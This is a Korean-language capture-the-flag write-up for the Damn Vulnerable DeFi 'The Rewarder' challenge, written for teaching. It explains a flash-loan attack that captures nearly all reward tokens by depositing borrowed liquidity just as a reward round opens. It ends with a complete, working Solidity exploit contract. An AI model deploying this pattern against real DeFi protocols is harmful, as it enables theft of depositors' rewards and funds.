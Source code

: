 attacker는 `liquidity token`을 가지고 있지 않기 때문에 `flash loan`을 이용해야 함을 알 수 있다. 또한 `flash loan` 서비스를 이용하기 위해서는 attacker가 컨트랙트를 작성해야 한다.

4명의 사용자는 `reward token`을 굉장히 조금 받는데 비해 attacker는 많은 `reward token`을 받아야 한다.
앞서 `reward token`의 개수는 `account token`의 총 발행량 대비 `msg.sender`가 가지고 있는 `account token`의 비율이기 때문에 가장 많이 받을 수 있는 `reward token`은 100개이다. 즉, 문제에서 attacker가 소유한 `reward token`의 양이 100개에 가까워야 한다는 조건은 attacker가 대부분의 `account token`을 소유해야함을 의미한다.
또한 `account token`은 `liquidity token`에 대해 1:1 비율로 지급되기 때문에 `rewaderPool`에서 사용자가 공급한 liquidity의 비율이 매우 높아야 한다.

위 사실을 종합하면 아래와 같은 익스플로잇 시나리오를 생각해볼 수 있다.

1. 먼저 문제 셋업 단계에서 강제로 5일이 경과되게 한다. `rewarderPool`은 3 라운드에 진입한다.
2. attacker가 익스플로잇 컨트랙트를 배포하여 `flash loan` 서비스를 호출한다. 이때, `flashloanerPool`이 가진 모든 토큰을 대출한다.
3. 익스플로잇 컨트랙트는 빌린 `liquidity token`을 모두 `rewarderPool`에 deposit한다. 이때, 예치한 `liquidity token`의 수 만큼 `account token`을 받는다. 다른 4명의 사용자는 각자 `liquidity token`을 100개씩 예치했기 때문에 pool 내에서 attacker(정확히는 익스플로잇 컨트랙트)가 차지하는 비율이 엄청나게 높아진다. 이미 5일이 경과했기 때문에 `deposit()` 함수가 실행되는 중 `distributeRewards()` 함수가 호출되어 익스플로잇 컨트랙트에 100개에 가까운 `reward token`이 지급된다.
4. 익스플로잇 컨트랙트는 예치했던 `liquidity token`을 다시 출금해서 `flashloanerPool`로 반환한다.
5. attacker는 익스플로잇 컨트랙트가 가진 `reward token`을 가져온다.

위 시나리오를 구현한 익스플로잇 컨트랙트는 다음과 같다.
~~~
contract RewarderAttackContract {
    DamnValuableToken public liquidityToken;
    TheRewarderPool public rewarderPool;
    FlashLoanerPool public flashLoan;
    RewardToken public rewardToken;

    constructor(
        address liquidityTokenAddress, 
        address rewarderPoolAddress,
        address flashLoanPoolAddress,
        address rewardTokenAddress) {
        liquidityToken = DamnValuableToken(liquidityTokenAddress);
        rewarderPool = TheRewarderPool(rewarderPoolAddress);
        flashLoan = FlashLoanerPool(flashLoanPoolAddress);
        rewardToken = RewardToken(rewardTokenAddress);
    }

    function receiveFlashLoan(uint256 amount) public {
        liquidityToken.approve(address(rewarderPool), amount);

        rewarderPool.deposit(amount);

        rewarderPool.withdraw(amount);

        liquidityToken.transfer(address(flashLoan), amount);
    }

    function runAttack(uint256 amount) public {
        flashLoan.flashLoan(amount);

        rewardToken.transfer(msg.sender, rewardToken.balanceOf(address(this)));
    }
}
~~~
